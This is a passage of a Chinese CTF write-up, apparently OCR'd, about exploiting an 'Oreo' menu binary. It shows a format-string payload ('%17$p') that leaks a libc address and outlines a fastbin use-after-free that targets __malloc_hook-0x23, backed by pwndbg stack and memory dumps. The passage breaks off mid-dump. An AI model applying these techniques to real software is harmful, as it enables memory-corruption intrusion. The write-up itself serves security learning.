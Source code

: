 ```c
#    2.Modify Oreo.   #
#    3.Delete Oreo.   #
#    4.View   Oreo.   #
#    5.Exit   system. #
#######################
> Now please tell me what you want to do :0
Now you are ....?
# Your Code is OreOOrereOOreO0x555555555680

```

下面我去看看OreOOrereOOreO%12$p这个字符串的地址

用search发现他在0x555555756050因为这个data段不在栈上面，我们就一个个的试发现偏移是7 这个是基础偏移

下面找到在数据在栈上是哪里去指向与他的（找的时候范围扩大点）

第一次出现在0x7fffffffddc8 下面有__libc_start_main+240可以泄露 0x7fffffffde18-0x7fffffffddc8  然后除以8得到泄露偏移

```c
fb:07d8│   0x7fffffffddc0 —▸ 0x5555555549e0 ◂— xor    ebp, ebp
fc:07e0│   0x7fffffffddc8 —▸ 0x555555756050 ◂— 'OreOOrereOOreO%7$p\n'
fd:07e8│   0x7fffffffddd0 ◂— 0x1
fe:07f0│   0x7fffffffddd8 ◂— 0x172557002dac300
ff:07f8│   0x7fffffffdde0 ◂— 0x0
100:0800│   0x7fffffffdde8 —▸ 0x5555555555e3 ◂— mov    eax, dword ptr [rbp - 0x14]
101:0808│   0x7fffffffddf0 —▸ 0x555555555680 ◂— push   r15
102:0810│   0x7fffffffddf8 ◂— 0x555549e0
103:0818│   0x7fffffffde00 —▸ 0x555555756050 ◂— 'OreOOrereOOreO%7$p\n'
104:0820│   0x7fffffffde08 ◂— 0x172557002dac300
105:0828│   0x7fffffffde10 —▸ 0x555555555680 ◂— push   r15
106:0830│   0x7fffffffde18 —▸ 0x7ffff7a2d840 (__libc_start_main+240) ◂— mov    edi, eax

```

基础偏移加泄露偏移=真实地址存放偏移 %17$p



fastbin攻击，利用uaf去修改fd的指针，去进行一个任意写，一般这个地址在__malloc_hook-0x23

我们可以看下是什么东西

```shell
pwndbg> p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
pwndbg> x/32gx 0x7ffff7dd1b10-0x23
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x00000000000000
```

```c
 p _IO_wide_data_0
$3 = {
  _IO_read_ptr = 0x0, 
  _IO_read_end = 0x0, 
  _IO_read_base = 0x0, 
  _IO_write_base = 0x0, 
  _IO_write_ptr = 0x0, 
  _IO_write_end = 0x0, 
  _IO_buf_base = 0x0, 
  _IO_buf_end = 0x0, 
  _IO_save_base = 0x0, 
  _IO_backup_base = 0x0, 
  _IO_save_end = 0x0, 
  _IO_state = {
    __count = 0, 
    __value = {
      __wch = 0, 
      __wchb = "\000\000\000"
```